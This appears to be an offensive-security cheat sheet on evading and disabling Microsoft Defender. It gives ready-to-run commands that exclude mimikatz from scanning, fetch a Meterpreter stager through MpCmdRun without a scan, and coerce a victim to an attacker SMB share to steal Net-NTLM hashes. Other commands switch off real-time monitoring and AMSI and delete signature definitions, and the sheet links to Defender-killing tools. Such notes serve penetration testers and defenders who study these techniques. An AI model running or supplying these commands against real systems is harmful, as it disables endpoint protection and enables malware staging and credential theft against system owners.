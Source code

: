 # Defender

Add path to exclusions:

```
PS > $mimi = "C:\Users\snovvcrash\music\mimi\x64\mimikatz.exe"
PS > Add-MpPreference -ExclusionPath $mimi -AttackSurfaceReductionOnlyExclusions $mimi
```

Download stager without triggering Defender to scan it:

```
PS > .\MpCmdRun.exe -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```

Coerce the victim machine to reach the attacker (to steal Net-NTLM):

```
Cmd > C:\PROGRA~1\WINDOW~1\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```




## Disable Defender

- [https://github.com/mandiant/commando-vm#pre-install-procedures](https://github.com/mandiant/commando-vm#pre-install-procedures)
- [https://github.com/swagkarna/Defeat-Defender-V1.2](https://github.com/swagkarna/Defeat-Defender-V1.2)
- [https://github.com/APTortellini/DefenderSwitch](https://github.com/APTortellini/DefenderSwitch)
- [https://github.com/dosxuz/DefenderStop](https://github.com/dosxuz/DefenderStop)
- [https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6](https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6)
- [http://www.wxxy-sec.com/?p=154](http://www.wxxy-sec.com/?p=154)

- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Real-time Protection* > *Turn off real-time protection* > *Enabled* ✔
- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Turn off Microsoft Defender Antivirus* > *Enabled* ✔

Disable real-time protection (proactive):

```
PS > Set-MpPreference -DisableRealTimeMonitoring $true
```

Disable scanning all downloaded files and attachments, disable AMSI (reactive):

```
PS > Set-MpPreference -DisableIOAVProtection $true
```

Remove signatures (if Internet connection is present, they will be downloaded again):

```
PS > cd "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0"
PS > .\MpCmdRun.exe -RemoveDefinitions -All
Or
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```




## Lower Token Integrity

- [https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/)
- [https://github.com/plackyhacker/SandboxDefender](https://github.com/plackyhacker/SandboxDefender)
- [https://github.com/pwn1sher/KillDefender](https://github.com/pwn1sher/KillDefender)
- [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools)
